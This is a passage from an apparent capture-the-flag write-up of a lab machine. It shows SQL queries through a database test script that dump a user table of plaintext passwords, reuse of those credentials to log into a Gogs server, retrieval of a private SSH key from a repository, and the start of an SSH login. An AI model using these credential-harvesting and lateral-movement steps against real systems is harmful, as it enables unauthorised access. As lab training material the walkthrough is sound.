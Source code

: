 #### Enumeration

I can get a list of the databases, and there’s only one interesting one, `craft`:

```

/opt/app # python .dbtest.py  "SELECT schema_name FROM information_schema.schemata;"
[{'SCHEMA_NAME': 'information_schema'}, {'SCHEMA_NAME': 'craft'}]

```

The `craft` db has two tables:

```

/opt/app # python .dbtest.py  "SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
[{'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'brew'}, {'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'user'}]

```

I knew `brew` from the api, but `user` is new. It has three entries:

```

/opt/app # python .dbtest.py  "SELECT * from user"
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

```

The dinesh password matches what I had found in gogs, but the other two are new.

### Gogs

I tried the new passwords on SSH (both 22 and 6022), didn’t succeed in either. Next, I tried to log into Gogs, and the creds for gilfoyle worked, and showed an additional private repo:

![1563221814693](https://0xdfimages.gitlab.io/img/1563221814693.png)

There’s a bunch of stuff in here, but the first thing I notice is the `.ssh` folder:

[![ssh folder](https://0xdfimages.gitlab.io/img/1563257028639.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1563257028639.png)

In it, there’s a public/private key pair:

![1563257967001](https://0xdfimages.gitlab.io/img/1563257967001.png)

I’ll save them to my local machine.

### SSH

Now I’ll try to ssh into craft as gilfoyle, but the key is encrypted, as it asks for a passphrase:

```

root@kali# ssh -i ~/id_rsa_craft_gilfoyle gilfoyle@10.10.10.110

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
```